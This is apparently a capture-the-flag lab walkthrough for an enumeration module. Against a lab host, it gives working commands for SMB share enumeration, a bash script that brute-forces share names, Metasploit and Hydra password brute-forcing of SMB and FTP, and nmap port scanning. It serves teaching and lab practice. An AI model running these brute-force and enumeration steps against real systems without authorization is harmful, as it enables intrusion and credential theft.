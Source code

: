 ## Assessment Methodologies: Enumeration

## Questions and Resolutions

### Q1. There is a samba share that allows anonymous access. Wonder what’s in there!

**Resolution:**  
Use enum4linux to determine which shares allow anonymous login.
```bash
enum4linux -a target.ine.local
```
If no shares allow anonymous access, brute-force the shares using a script with a wordlist (example script below):

```bash
#!/bin/bash
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"
while read -r SHARE; do
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null
    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    fi
done < "$WORDLIST"
```
Once found, access the share:
```bash
smbclient //target.ine.local/pubfiles -N
```
Download and read the file using `cat`.

### Q2. One of the samba users has a bad password. Their private share with the same name as their username is at risk!

**Resolution:**  
Identify usernames using enum4linux (e.g., josh, bob, nancy, alice). Use Metasploit's smb_login module to enumerate weak passwords:
- Set a users.txt file with these usernames.
- Set a password wordlist as PASS_FILE.

Example:
```
use auxiliary/scanner/smb/smb_login
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
set RHOSTS target.ine.local
run
```
Once you discover valid credentials, log in:
```bash
smbclient //target.ine.local/josh -U josh
```
Download and read the file.

### Q3. Follow the hint given in the previous flag to uncover this one.

**Resolution:**  
If you find a hint about the FTP service, use nmap to check open ports:
```bash
nmap -p- target.ine.local
```
If FTP is on a non-standard port (e.g., 5554), brute-force weak credentials with Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Log in with discovered credentials, download the file, and read its contents.

### Q4. This is a warning meant to deter unauthorized users from logging in.

**Resolution:**  
Review nmap results to identify an SSH service. Try to connect and investigate banners or messages for further information.
